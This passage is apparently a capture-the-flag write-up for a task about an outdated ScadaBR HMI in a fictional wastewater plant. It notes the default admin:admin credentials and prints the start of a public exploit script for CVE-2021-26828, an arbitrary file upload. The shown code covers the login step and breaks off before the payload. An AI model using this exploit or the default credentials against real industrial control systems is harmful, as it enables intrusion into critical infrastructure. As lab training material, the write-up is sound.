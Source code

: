 3. #### Task 10 - Brr v1
A forgotten HMI node deep in Virelia’s wastewater control loop still runs an outdated instance, forked from an old Mango M2M stack. 

Note: The VM takes about 3 minutes to boot up.

Solution:
The ScadaBR use the default credentials `admin:admin`.
```rust
#!/usr/bin/env python3

import requests
import sys
import time

if len(sys.argv) <= 4:
    print('[x] Missing arguments ... ')
    print('[>] Usage: python3 WinScada_RCE.py <TargetIp> <TargetPort> <User> <Password>')
    print('[>] Example: python3 WinScada_RCE.py 192.168.1.24 8080 admin admin')
    sys.exit(0)
else:
    time.sleep(1)

host = sys.argv[1]
port = sys.argv[2]
user = sys.argv[3]
passw = sys.argv[4]

flag = False
LOGIN = f'http://{host}:{port}/ScadaBR/login.htm'
PROTECTED_PAGE = f'http://{host}:{port}/ScadaBR/view_edit.shtm'

banner = '''
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|    _________                  .___     ____________________       |
|   /   _____/ ____ _____     __| _/____ \\______   \______   \      |
|   \_____  \_/ ___\\__  \   / __ |\__  \ |    |  _/|       _/       |
|   /        \  \___ / __ \_/ /_/ | / __ \|    |   \|    |   \      |
|  /_______  /\___  >____  /\____ |(____  /______  /|____|_  /      |
|          \/     \/     \/      \/     \/       \/        \/       |
|                                                                   |
|    > ScadaBR 1.0 ~ 1.1 CE Arbitrary File Upload (CVE-2021-26828)  |
|    > Exploit Author : Fellipe Oliveira  			    |
|    > Exploit for Windows Systems                                  |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
'''

def main():
    payload = {
        'username': user,
        'password': passw
    }

    print(banner)
    time.sleep(2)

    with requests.session() as s:
        print(f"[+] Trying to authenticate {LOGIN}...")
        s.post(LOGIN, data=payload)
        response = s.get(PROTECTED_PAGE)

        if response.status_code == 200:
            print("[+] Successfully authenticated! :D~\n")
            time.sleep(2)
        else:
```
